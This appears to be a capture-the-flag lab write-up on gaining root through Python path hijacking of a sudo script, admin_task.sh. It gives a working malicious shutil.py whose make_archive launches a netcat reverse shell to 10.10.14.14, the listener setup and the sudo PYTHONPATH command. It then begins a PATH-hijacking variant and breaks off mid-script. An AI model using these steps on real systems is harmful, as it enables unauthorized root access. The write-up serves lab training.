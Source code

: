 
## Root - Exploiting admin_task.sh w/ SETENV (Python Path Hijacking)
1. How do we exploit `admin_task.sh`?
	1. Since `backup_web()` is calling a python script (`backup.py`), we are able to do Python Path Hijacking.
	2. `backup.py` is importing `shutil.py`, specifically `make_archive` function
	3. Create a malicious python script called `shutil.py` that has a function `make_archive()`, containing malicious code, in a writable directory (`/tmp`)
	4. Execute `admin_task.sh` as `root`  and set the python path to `/tmp`
	5. When `backup_web()` is called, `backup.py` will be executing our malicious python library.

2. Exploiting `admin_task.sh` (Python Path Hijacking)
	1. View `make_archive` function in `shutil.py`
		```
		waldo@admirer:/tmp$ cat /usr/lib/python3.5/shutil.py | grep -A1 "make_archive("
		def make_archive(base_name, format, root_dir=None, base_dir=None, verbose=0,
		                 dry_run=0, owner=None, group=None, logger=None):
		```
	2. Create malicious python script `make_archive`
		```python 
		import os;
		def make_archive(base_name, format, root_dir=None, base_dir=None, verbose=0, dry_run=0, owner=None, group=None, logger=None):
			os.system("nc 10.10.14.14 4444 -e /bin/bash")
		```
	3. Start `netcat` listener
		```
		┌──(root💀kali)-[~/htb/admirer]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		```
	4. Execute `admin_task.sh` as `root` and set python path to invoke reverse shell
		```
		waldo@admirer:/tmp$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh
		```
3. Demo - Exploiting `admin_task.sh` w/ `SETENV` (Python Path Hijacking)
	![](qZlpNKIxvn.gif)

# Additional
## Configure admin_task.sh to do regular Path Hijacking
1. Edit `admin_task.sh`, `view_uptime()` function
	```
	view_uptime()
	{
	   uptime -p
	}
	```
	- Remove its full PATH
2. Create malicious bash script named `uptime`
	```bash
	#!/bin/bash
	